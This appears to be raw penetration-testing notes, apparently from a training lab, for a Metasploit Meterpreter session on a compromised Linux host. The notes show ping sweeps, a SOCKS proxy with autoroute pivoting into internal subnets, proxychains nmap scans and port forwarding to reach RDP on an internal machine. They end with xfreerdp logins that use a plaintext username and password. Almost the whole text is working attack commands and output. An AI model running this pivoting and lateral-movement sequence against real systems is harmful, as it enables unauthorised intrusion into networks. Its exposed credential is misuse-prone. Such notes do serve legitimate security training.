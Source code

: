 (Meterpreter 1)(/home/webadmin) > pwd
/home/webadmin

run post/multi/gather/ping_sweep RHOSTS=10.129.200.0/21
[*] Performing ping sweep for IP range 10.129.200.0/21

[+] 	10.129.201.57 host found
[+] 	10.129.201.55 host found
[+] 	10.129.201.88 host found
[+] 	10.129.201.96 host found
[+] 	10.129.201.101 host found
[+] 	10.129.201.127 host found
[+] 	10.129.201.234 host found
[+] 	10.129.202.41 host found
[+] 	10.129.202.64 host found
[+] 	10.129.202.120 host found
[+] 	10.129.203.118 host found

use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set version 4a
run

socks4 	127.0.0.1 9050

run autoroute -s 10.129.200.0/21

run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.200.0       255.255.248.0      Session 1

proxychains nmap -sV -sT 10.129.200.0/21 --stats-every=5s

ifconfig
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.15  netmask 255.255.0.0

run post/multi/gather/ping_sweep RHOSTS=172.16.0.0/16

run autoroute -s 172.16.0.0/16
run autoroute -p

proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn

portfwd add -l 3300 -p 3389 -r 172.16.5.19
xfreerdp /v:localhost:3300 /u:mlefay /p:"Plain Human work!"

-> FAILED

xfreerdp /v:172.16.5.19 /u:mlefay /p:"Plain Human work!"
